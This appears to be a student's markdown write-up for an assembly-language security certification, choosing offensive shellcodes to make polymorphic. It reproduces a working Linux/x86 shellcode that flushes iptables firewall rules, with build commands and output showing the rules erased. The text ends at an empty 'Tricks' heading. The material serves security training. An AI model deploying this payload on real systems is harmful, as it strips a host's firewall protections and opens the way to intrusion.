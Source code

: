 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# Choosing shellcodes

For the polymorphism exercises, I decided to choose three shellcodes from different authors with a real offensive usage. In my humble opinion, send *Phuck3d!* to all terminals (http://shell-storm.org/shellcode/files/shellcode-604.php) or open the CD drive (http://shell-storm.org/shellcode/files/shellcode-621.php) does not have real usage in an offensive assessment. 

#  Linux/x86 - iptables -F - 58 bytes by dev0id
Source: http://shell-storm.org/shellcode/files/shellcode-361.php

## Original shellcode

```ASM
jmp short callme
main:
 pop esi
 xor eax,eax
 mov byte [esi+14],al
 mov byte [esi+17],al
 mov long [esi+18],esi
 lea  ebx,[esi+15]
 mov long [esi+22],ebx
 mov long [esi+26],eax
 mov  al,0x0b
 mov ebx,esi
 lea ecx,[esi+18]
 lea edx,[esi+26]
 int 0x80
 
callme:
 call main
 db '/sbin/iptables#-F#'
```

This shellcode flush iptables rules (local Linux Firewall). In order to test the shellcode filtering rules must be set, with root privileges:

```sh
$ nasm -f elf32 iptables-shellstrom.nasm && ld -N -z execstack -o iptables-shellstrom iptables-shellstrom.o
$ sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED -j ACCEPT
$ sudo iptables -L INPUT
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere             ctstate ESTABLISHED
$ sudo ./iptables-shellstrom
$ sudo iptables -L INPUT
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
```
## Tricks
